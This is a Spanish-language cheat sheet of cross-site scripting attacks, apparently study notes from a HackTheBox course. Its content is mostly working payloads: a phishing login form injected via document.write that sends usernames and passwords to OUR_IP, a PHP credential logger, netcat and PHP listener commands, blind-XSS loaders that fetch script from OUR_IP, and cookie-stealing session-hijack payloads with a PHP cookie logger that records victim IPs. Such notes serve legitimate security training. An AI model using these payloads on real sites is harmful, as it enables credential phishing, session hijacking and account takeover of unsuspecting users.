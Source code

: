 ## Poc
```html
<script>alert(window.origin)</script>
```

```html
<script>alert(document.cookie)</script>
```

Ez y no usar alert():

```
<script>print()</script>
```
cuando es DOM-based :
```html
<img src="" onerror=alert(window.origin)>
```


## login form injection
todo esto metido en la funcion document.write()
```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

ANTES:
<img width="1067" height="406" alt="image" src="https://github.com/user-attachments/assets/ba8e2d8e-a17f-4d20-bba9-f7b8258ceec5" />


DESPUES:
<img width="1052" height="253" alt="image" src="https://github.com/user-attachments/assets/c19487d1-ee32-4555-94dc-afa0648d9f7f" />


 vemos que tenemos el formulario pero todavía está el formulario antiguo, por ende tenemos que borrar el antiguo formulario,para ello utilizaremos la función `document.getElementById().remove()` y para ver el ID lo veremos en el código html : 
 ```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```

PAYLOAD FINAL:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

Y para recibir las credenciales : 
```shell-session
bonack@htb[/htb]$ sudo nc -lvnp 80
```
alo usar netcat el us soluario que ponga las credenciales le saltará un error , si queremos algo mas realista insertaremos un codigo php que haga que le redirija a la página original de nuevo, el archivo sera `index.php` guardado en ``/tmp/tmpserver/`` . CODIGO:

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

y luego : 

```shell-session
bonack@htb[/htb]$ mkdir /tmp/tmpserver
bonack@htb[/htb]$ cd /tmp/tmpserver
bonack@htb[/htb]$ vi index.php #at this step we wrote our index.php file
bonack@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```
 luego las credenciales se guardarán en un archivo `creds.txt`


## Blind XSS

XSS a una pagina a la que no tenemos acceso

payloads:

```html
<script src=http://OUR_IP></script>

'><script src=http://OUR_IP></script>

"><script src=http://OUR_IP></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>

<script>$.getScript("http://OUR_IP")</script>
```
 y hacer : 
```
 mkdir /tmp/tmpserver
 cd /tmp/tmpserver
 sudo php -S 0.0.0.0:80
```



###  Session Hijacking

payloads:

`
```javascript
<script>document.location='http://OUR_IP/index.php?c='+document.cookie</script>
<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script> 
```


codigo para ordenar las cookies que encontremos(index.php) : 

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
